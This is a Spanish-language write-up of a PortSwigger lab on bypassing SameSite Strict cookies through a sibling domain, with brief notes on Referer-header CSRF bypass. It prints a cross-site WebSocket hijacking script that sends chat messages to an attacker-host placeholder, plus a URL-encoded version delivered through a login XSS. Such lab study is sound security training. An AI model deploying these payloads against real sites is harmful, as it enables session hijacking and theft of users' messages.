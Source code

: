 ### Same site Sibling domain(CSWSH)

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)

Script html utilizado.

```jsx
<script>
    var ws = new WebSocket('wss://0ac60050047f30558226d44700ec00dc.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        var message = event.data;
        fetch('https://SERVER-ATACANTE/exploit?message=' + btoa(message));
    };
</script>
```

URLecodeado el script anterior y utilizando un origen permitido por la web podemos llevar a cabo la explotación de un CSRF a través de XSS en un login.

```jsx
<script>
document.location = 'https://URL-VULNERABLE-XSS/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%63%36%30%30%35%30%30%34%37%66%33%30%35%35%38%32%32%36%64%34%34%37%30%30%65%63%30%30%64%63%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%65%6e%74%2e%64%61%74%61%3b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%64%33%30%30%38%35%30%34%61%66%33%30%37%65%38%32%38%62%64%33%61%61%30%31%63%30%30%30%64%64%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%27%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=test'
</script>
```

Si queréis profundizar mas en este tipo de vulnerabilidad os recomiendo que le echéis un ojo a esta web: [https://www.blackhillsinfosec.com/cant-stop-wont-stop-hijacking-websockets/](https://www.blackhillsinfosec.com/cant-stop-wont-stop-hijacking-websockets/)

## Bypass referer header

Hay aplicaciones que validan esta cabecera cuando esta presente en la petición pero no realizan la validación si se omite por lo que se puede llegar a realizar un csrf omitiéndola.

Para comprobar si es vulnerable:

1. Cambiar dominio de referer y observar respuesta.
2. Eliminar cabecera y comprobar respuesta.
